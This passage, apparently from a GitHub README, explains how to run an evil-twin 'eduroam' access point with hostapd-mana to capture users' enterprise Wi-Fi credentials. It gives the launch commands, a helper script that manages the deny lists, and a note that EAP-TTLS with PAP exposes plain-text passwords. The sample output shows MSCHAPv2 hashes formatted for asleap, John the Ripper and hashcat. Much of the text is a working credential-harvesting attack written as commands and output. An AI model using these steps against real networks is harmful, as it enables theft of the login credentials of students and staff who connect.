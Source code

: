 - Note: With the help of an Android phone device, a Wi-Fi analyzer application (``WiFiAnalyzer`` for example) can come in andy to quickly verify the available surrounding networks, their Service Set Identifiers (SSIDs), MAC addresses and corresponding manufacturers (when valid), and signal strength.

## Starting an attack

To start an attack, we just need to run the following command:

```
sudo hostapd-mana eduroam.conf
```

Or in case only lines containing relevant output are required:

```
sudo hostapd-mana eduroam.conf | grep -v wlan0
```

Optionally, the python script ``pymana.py`` can be used. It properly initializes the AP, starts an attack, and automatically adds devices to the deny list after the first disassociation (also reloading configurations for changes to take effect):

```
sudo python pymana.py
```

- Note: Make sure you have the ``eduroam.conf``, ``hostapd.eap_user``, ``hostapd.accept`` and ``hostapd.deny`` files.
Configurations and accept/deny lists can be reloaded with the command ``sudo kill -1 $(pidof [hostapd/hostapd-mana])`` without having to stop the attack.

# Analyzing results

Hostapd will most likely always retrieve the username of the device trying to connect. Whether or not it also finds the password depends on the EAP mechanismsm being used. In case it is EAP-TTLS with PAP, it will display the plain-text password. In case of EAP-PEAP with MSCHAPv2, we will need to do an extra hash cracking.

```
*sample output*

└─$ sudo hostapd-mana eduroam.conf
Configuration file: eduroam.conf
Using interface wlan0 with hwaddr 92:0e:cc:52:db:1a and ssid "eduroam"
wlan0: interface state UNINITIALIZED->ENABLED
wlan0: AP-ENABLED 
wlan0: STA e2:3a:88:4b:de:de IEEE 802.11: authenticated
wlan0: STA e2:3a:88:4b:de:de IEEE 802.11: associated (aid 1)
wlan0: CTRL-EVENT-EAP-STARTED e2:3a:88:4b:de:de
wlan0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=1
MANA EAP Identity Phase 0: user@realm
wlan0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=25
MANA EAP Identity Phase 1: user@realm
MANA EAP EAP-MSCHAPV2 ASLEAP user=user@realm | asleap -C 3c:c7:4f:bf:a5:a5:4f:10 -R 22:52:fb:36:fc:19:a7:02:ab:9f:39:68:3a:4b:4d:d2:a6:1e:9c:ee:a7:85:ed:e7
MANA EAP EAP-MSCHAPV2 JTR | user@realm:$NETNTLM$3cc74fbfa5a54f10$2252fb36fc19a702ab9f39683a4b4dd2a61e9ceea785ede7:::::::
MANA EAP EAP-MSCHAPV2 HASHCAT | user@realm::::2252fb36fc19a702ab9f39683a4b4dd2a61e9ceea785ede7:3cc74fbfa5a54f10
EAP-MSCHAPV2: Derived Master Key - hexdump(len=16): 20 5f cb fe 32 3c 18 ac 31 7a 95 12 c6 19 da f4
wlan0: STA e2:3a:88:4b:de:de IEEE 802.11: disassociated
wlan0: STA e2:3a:88:4b:de:de IEEE 802.11: authenticated
wlan0: STA e2:3a:88:4b:de:de IEEE 802.11: associated (aid 1)
wlan0: CTRL-EVENT-EAP-STARTED e2:3a:88:4b:de:de
wlan0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=1
MANA EAP Identity Phase 0: user@realm
```
